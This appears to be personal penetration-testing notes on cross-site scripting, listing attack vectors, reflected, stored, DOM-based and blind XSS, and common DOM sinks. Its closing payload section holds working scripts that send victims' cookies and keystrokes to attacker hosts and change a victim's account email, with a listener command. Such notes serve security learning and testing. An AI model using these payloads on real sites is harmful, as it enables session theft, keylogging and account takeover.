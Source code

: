 # Cross Site Scripting(XSS)

### Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

<!-- -->

				Reflected XSS
##### Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

-   Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

<!-- -->


Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings

<!-- -->

				Dom-Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

- Attack vector is usually the url

- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

- attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with.

Common sinks that lead to Dom-XSS:
-  document.write()
-  document.writeln()
-  document.domain
-  element.innerHTML
-  element.outerHTML
-  element.insertAdjacentHTML
-  element.onevent

<!-- -->

 
					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
## Cookie stealing
python -m SimpleHTTPServer 80
`<script>new Image().src="http://$IP/index.php?c="+document.cookie;</script>`

## Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)